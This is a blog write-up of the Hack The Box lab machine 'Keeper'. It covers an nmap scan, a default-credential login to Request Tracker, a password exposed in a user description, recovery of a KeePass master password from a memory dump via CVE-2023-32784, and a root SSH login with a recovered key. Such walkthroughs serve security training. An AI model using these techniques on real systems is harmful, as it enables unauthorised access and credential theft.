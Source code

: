 ```yaml
---
layout: post_1
title: "Keeper - HTB"
date: 2024-02-13
---
```


# HTB Keeper Write Up
![HTB Keeper](/assets/2024-02-13-writeups-keeper-htb/machine_info.png "Keeper")

## Introduction
Keeper is a company that provides a cloud ticketing service. It hosts the open-source software Best Practical Request Tracker.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
</div>

</details>

## Investigation
First, the network scan analysis shows us an HTTP server running nginx.  
We didn't get a vhost redirection on `nmap`, so we can access the server without any.
The page just prints a redirection message to tickets.keeper.htb/rt vhost.
![Http server no vhost](/assets/2024-02-13-writeups-keeper-htb/http_server_no_vhost.png "Http server no vhost")   

### tickets.keeper.htb
Best Practical Request Tracker software.  
There is no public exploit to recent vulnerabilities.  
This service comes with default credentials.  
```
User: root
Pass: password
```

It is possible to log in with default credentials.
![Request tracker page](/assets/2024-02-13-writeups-keeper-htb/request_tracker_page.png "Request tracker page")

Issue tracker software normally contains sensitive information. Usually on the issues but they can be useful in finding users list, information about local services, etc.
On this server, there were only two users:
![Request tracker user list](/assets/2024-02-13-writeups-keeper-htb/request_tracker_user_list.png "Request tracker user list")
lnorgaard user has the password on the description
![lnorgaard password](/assets/2024-02-13-writeups-keeper-htb/lnorgaard_password.png "lnorgaard password")

Checking if it's possible to log in on ssh with this user and it's possible.

### lnorgaard
RT30000.zip file on home, containing two files
```
$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Looking into the files
```
$ file KeePassDumpFull.dmp 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```
```
$ file passcodes.kdbx 
passcodes.kdbx: Keepass password database 2.x KDBX
```

There is a [KeePass vulnerability][CVE-2023-32784] that it possible to retrieve passwords from a memory dump.
Using a public exploit from [vdhoney][keepass-password-dumper] it's possible to find a list with possible passwords
```
$ dotnet run ~/keeper/KeePassDumpFull.dmp
... SNIP ...
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```
This means that the first character is unknown `●` and the following are possible 16-second characters appended on beginning of `dgrød med fløde`.
Using Google Translate to identify the language, to later perform a smart brute force on the character set. The language was identified as Danish.
When doing this, it was corrected to `rødgrød med fløde`. This is the correct password for passcodes.kdbx

There was a root user with both password and PuTTY SSH key pair
![Root SSH](/assets/2024-02-13-writeups-keeper-htb/root_ssh.png "Root SSH")

[A PuTTY ssh key can be converted to openssh format][ssh-key-types-convert-ppk].
Following the guide to get the private key and log in as the root
```
$ ssh -i root.id_rsa root@10.10.11.227
$ id
uid=0(root) gid=0(root) groups=0(root)
```

[CVE-2023-32784]: <https://nvd.nist.gov/vuln/detail/CVE-2023-32784> "CVE-2023-32784"
[keepass-password-dumper]: <https://github.com/vdohney/keepass-password-dumper> "keepass-password-dumper"
[ssh-key-types-convert-ppk]: <https://www.baeldung.com/linux/ssh-key-types-convert-ppk> "ssh-key-types-convert-ppk"
